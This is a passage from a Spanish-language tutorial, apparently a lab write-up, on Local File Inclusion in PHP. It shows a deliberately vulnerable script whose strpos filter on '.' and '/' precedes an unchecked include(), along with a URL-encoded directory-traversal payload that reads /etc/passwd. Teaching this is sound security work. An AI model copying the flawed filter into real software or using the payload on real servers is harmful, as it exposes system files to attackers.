 Esto funciona así ya que a la hora de hacer la comparación **strpos** evaluá el valor en **ascii** y no en **hex** y como a nivel web a la hora de recibir un valor **'/'** y **'%2F'** es lo mismo lo sigue interpretado la función **include()**.

Podemos implementar mas restricciones en este caso vamos a restringir el uso de **"."** y **"/"**.

```php5
<?php
        echo "<html>";
        echo "<br>";
        echo "<br>";
        echo "<center><a href=index.php?file=hola.html><button>Hack NSA</button></a></center";

        echo "<p>";
        if( strpos($_SERVER["QUERY_STRING"], "/") ){
                echo "<p>";
                exit("[!] Carácter Invalido!!");

        }
        if( strpos($_SERVER["QUERY_STRING"], ".") ){
                echo "<p>";
                exit("[!] Carácter Invalido!!");

        }else{

                echo "<p>";
                include("/var/www/html/" . $_GET['file']);
        }
        echo "</p>";
        echo "</html>"
?>
```
Aquí agregamos otro if teniendo un total de dos if anidados los cuales cada uno compara en el array si existe el carácter que le mencionamos en este caso fue el **"."** y **"/"** y bien usando lo aprendido anteriormente sabemos que podemos evitar este filtro pasando le el valor del carácter en hexadecimal.

Por ende sabemos que el valor de **"."** es **"%2E"** y **'/'** es **'%2F'** entonces si modificamos la cadena quedaría de la siguiente forma:

```bash
http://127.0.0.1/?file=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
```

<p align="center">
<img src="https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/machines/Laboratorios/LFI/images/web15.png?raw=true">
</p>
